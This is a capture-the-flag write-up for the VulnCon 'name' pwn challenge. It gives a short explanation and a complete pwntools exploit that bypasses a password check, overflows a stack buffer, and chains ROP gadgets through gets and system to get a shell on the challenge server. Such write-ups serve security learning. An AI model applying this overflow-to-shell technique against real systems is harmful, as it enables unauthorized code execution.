


## VulnCon CTF: name [pwn]


#### For this challenge, we had to pass a simple check in order to control the return address. Also, because of the system(echo) call when printing the prompt, it kinda serves as an anti-debug of some sorts. I was able to learn how to use `set follow-fork-mode parent` to debug it which was pretty nice. The approach was simple, to get a second user input, store it into the .bss section and use it as an argument to system.

```python
from pwn import *

#p = process('./name')
binary = ELF('./name', checksec = False)
breakpoints = ['set follow-fork-mode parent', 'break *0x4007cc']
#gdb.attach(p.pid, gdbscript = '\n'.join(breakpoints))
p = remote("13.233.134.24", 49153)

#:
print(p.recvuntil('name: '))
exploit = 'w3lc0m3'
exploit += '\x00'
exploit += cyclic(128)
exploit += p64(0x0000000000400833) #: pop rdi ; ret
exploit += p64(0x601000) #: .bss
exploit += p64(binary.symbols['gets'])
exploit += p64(0x0000000000400833) #: pop rdi ; ret
exploit += p64(0x601000) #: .bss
exploit += p64(binary.symbols['system'])
p.sendline(exploit)
p.sendline('/bin/sh\x00')
p.interactive()
```

